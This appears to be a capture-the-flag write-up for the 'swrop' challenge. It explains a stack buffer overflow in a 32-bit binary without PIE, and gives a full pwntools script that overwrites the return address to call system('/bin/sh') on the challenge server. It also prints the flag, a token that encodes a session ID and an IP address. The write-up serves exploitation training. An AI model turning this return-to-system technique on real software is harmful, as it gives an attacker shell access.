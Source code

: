 # swrop

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNi1zd3JvcCIsImlwIjoiMjAyLjg3LjE2Mi4yOCIsInNlc3Npb24iOiJkZDA3NTNmNy1iNjM2LTQ4ZjctYmNhZi1mOTVkNjgyY2ZlN2UifQ.Hg41JWtmCQ9W6fuixqVcNVIxX1tkH7bgrfJXkz_FFZA}

## Scenario

The program contains a `read()` function that is vulnerable to a buffer overflow attack. The program also contains a `system()` function and `"/bin/sh"` string

## Solution

As PIE is disabled, the address of `system()` (or a call to system) can be found through static analysis. We can overflow the return address of the `vulnerable_function` function, and push the `"/bin/sh"` string address onto the stack to exploit.

## Script

```python3
from pwn import *

'''
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
'''

"""
read(0, ebp-0x84, 0x100)
"""

p = process("./swrop")
p = remote("plsdonthaq.me", 6001)

string_binsh = 0x80485f0
# func_system = 0x8048390

payload = b""
payload += b'\x90' * (0x84 + 4) # Write up to esp

'''
Use the `call system` instruction
this method does not need an extra 4 byte padding
'''
# payload += p32(func_no_call_system)

'''
Jump into the system function
this method needs an extra 4 byte padding
'''
payload += p32(0x8048390)
payload += b'....'

payload += p32(string_binsh)

p.sendline(payload)
p.interactive()
```
